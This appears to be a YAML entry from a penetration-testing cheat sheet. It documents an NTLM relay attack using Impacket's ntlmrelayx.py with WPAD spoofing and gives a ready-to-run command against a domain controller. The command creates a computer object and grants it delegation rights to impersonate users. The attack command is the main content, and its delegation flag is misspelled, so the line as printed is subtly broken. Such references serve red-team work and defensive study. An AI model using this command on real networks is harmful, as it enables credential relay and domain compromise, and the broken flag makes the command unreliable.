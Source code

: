 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command will perform WPAD spoofing to force the victim machine to authenticate to the attacker controlled host. The command will then relay the authentication to create a new computer object and grant it delegation rights to impersonate users on the victim machine. This command should be used in conjunction with mitm6.

  Command Reference:

  	Target Domain Controller: dc.test.local

command: |
  python3 ntlmrelayx.py -t ldaps://dc.test.local -wh test-wpad --delegat-access
items:
  - No_Creds
services:
  - NTLM
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
---
```

